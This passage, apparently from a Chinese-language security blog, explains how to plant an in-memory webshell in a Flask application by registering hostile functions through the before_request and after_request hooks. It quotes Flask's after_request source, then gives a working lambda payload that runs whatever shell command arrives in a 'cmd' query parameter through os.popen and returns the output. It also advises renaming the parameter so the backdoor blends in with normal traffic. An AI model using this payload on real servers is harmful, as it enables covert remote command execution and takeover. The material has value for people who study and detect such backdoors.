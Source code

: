 通过动态导入 sys 模块，获取当前 Flask 应用实例 app，并将一个匿名函数添加到 app 的请求前处理函数列表中，利用`before_request`装饰器触发自定义后门函数执行命令

![6](/medias/flask-shell/6.png)

### after_request

after_request：如果处理逻辑没有异常抛出，在每次请求后运行

`after_request`装饰器在每次请求处理之后调用，同样可以接收一个自定义函数f，区别在，这里的函数需要接收一个response对象，同时返回一个response对象

定义
```python
@setupmethod
    def after_request(self, f: AfterRequestCallable) -> AfterRequestCallable:
        """注册一个函数，在每次请求后运行。

        该函数会接收响应对象，并必须返回一个响应对象。这允许函数在发送响应之前修改或替换响应。

        如果一个函数引发异常，则任何剩余的 ``after_request`` 函数将不会被调用。因此，这不应用于必须执行的操作，例如关闭资源。请使用 :meth:`teardown_request` 来处理此类操作。
        """
        self.after_request_funcs.setdefault(None, []).append(f)
        return f
```

仅通过lambda无法对原始传进来的response进行修改后再返回，所以需要重新生成一个response对象，然后再返回这个response

函数内容为：

```python
lambda resp: #传入参数
    CmdResp if request.args.get('cmd') and      #如果请求参数含有cmd则返回命令执行结果
    exec('
        global CmdResp;     #定义一个全局变量，方便获取
        CmdResp=make_response(os.popen(request.args.get(\'cmd\')).read())   #创建一个响应对象
    ')==None    #exec函数返回None，所以恒真
    else resp)  #如果请求参数没有cmd则正常返回
#这里的cmd参数名和CmdResp变量名都是可以改的，最好改成服务中不存在的变量名以免影响正常业务
```
